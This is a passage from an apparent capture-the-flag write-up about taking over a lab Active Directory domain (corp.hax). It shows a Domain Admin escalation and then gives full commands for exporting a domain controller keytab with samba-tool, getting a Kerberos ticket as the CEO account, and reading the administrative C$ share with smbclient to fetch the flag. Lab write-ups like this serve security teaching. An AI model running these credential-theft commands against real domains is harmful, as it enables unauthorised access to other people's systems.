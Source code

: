![DC1-4](/assets/img/GRIMM-hax-combined/24.PNG)

I guess maybe this was just a hint, and I tried the same thing: create a new user and add it to the Domain Admins group. And now I am a Domain Admin!

![DC1-5](/assets/img/GRIMM-hax-combined/25.PNG)

There is another way to get the flag that I would also like to show you in this writeup, which uses `smb-client` to access the shares on the primary DC:

- Use `samba-tool` to export the keytab from the primary DC
    
    ```
    /usr/local/samba/bin/samba-tool domain exportkeytab /tmp/test.keytab
    ```

- Init a new Kerberos ticket for `smb-client` on DC2
    
    ```
    kinit -k -t /tmp/test.keytab CEO@CORP.HAX
    ```

- Use `smb-client` with the generated ticket

    ```
    smbclient -k //dc1.corp.hax/C\$/ -c ls
    smbclient -k //dc1.corp.hax/C\$/ -c "get Users\\Administrator\\flag.txt /tmp/flag.txt"
    ```

And the flag is `GRIMM-DOMAIN-ADMIN-BEST-ADMIN`.
